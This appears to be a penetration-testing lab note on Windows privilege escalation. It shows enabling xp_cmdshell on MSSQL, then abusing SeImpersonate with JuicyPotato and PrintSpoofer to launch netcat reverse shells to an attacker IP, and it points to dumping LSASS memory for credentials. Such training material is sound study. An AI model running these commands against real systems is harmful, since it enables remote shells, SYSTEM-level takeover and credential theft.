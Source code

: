 ## **Windows User Privileges**

---

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access

---

### SeImpersonate Using - JuicyPotato

```shell-session
PrinceAli1@htb[/htb]$ mssqlclient.py sql_dev@10.129.43.30 -windows-auth
```

```shell-session
SQL> enable_xp_cmdshell
```

```shell-session
SQL> xp_cmdshell whoami
```

```shell-session
SQL> xp_cmdshell whoami /priv
```

#### Escalating Privileges Using JuicyPotato

To escalate privileges using these rights, let's first download the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. Next, stand up a Netcat listener on port 8443, and execute the command below where `-l` is the COM server listening port, `-p` is the program to launch (cmd.exe), `-a` is the argument passed to cmd.exe, and `-t` is the `createprocess` call. Below, we are telling the tool to try both the [CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) and [CreateProcessAsUser](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera) functions, which need `SeImpersonate` or `SeAssignPrimaryToken` privileges respectively.

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

### SeImpersonate Using - PrintSpoofer

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

### SeDebugPrivilege

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.
